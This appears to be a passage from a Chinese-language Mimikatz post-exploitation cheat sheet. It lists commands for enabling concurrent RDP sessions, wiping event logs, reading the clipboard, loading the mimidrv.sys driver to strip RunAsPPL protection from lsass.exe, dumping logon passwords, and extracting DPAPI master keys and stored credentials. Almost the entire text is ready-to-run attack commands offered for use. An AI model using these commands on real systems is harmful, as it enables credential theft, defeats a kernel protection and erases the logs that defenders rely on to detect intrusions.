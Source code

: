 ```bash
```

---

## 后渗透

多用户登录 3389
```
ts::multirdp
```

清除日志
```
event::drop
```

粘贴板信息
```
misc::clip
```

---

## 绕过RunAsPPL

RunAsPPL 有效地阻止了 Mimikatz 访问的内存 lsass.exe

为此，Mimikatz 使用数字签名的驱动程序来删除内核中 Process 对象的保护标志。该文件 mimidrv.sys 必须位于当前文件夹中，以便使用命令作为内核驱动程序服务加载!+。然后，您可以使用命令! processprotect 删除保护并最终访问 lsass.exe。
```
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

完成后，您甚至可以使用相同的命令 “恢复” 保护，而无需使用 / remove 参数，最后使用!- 卸载驱动程序。
```
mimikatz # !processprotect /process:lsass.exe
mimikatz # !-
```

---

## DPAPI

查看目标Windows凭据管理器中是否保存有各种系统连接账密
```
cmdkey /l
```

通过读取 Lsass 进程信息，获取当前系统中的 MasterKey，能获得多个 Master Key file 对应的 MasterKey
```
privilege::debug
sekurlsa::dpapi
```
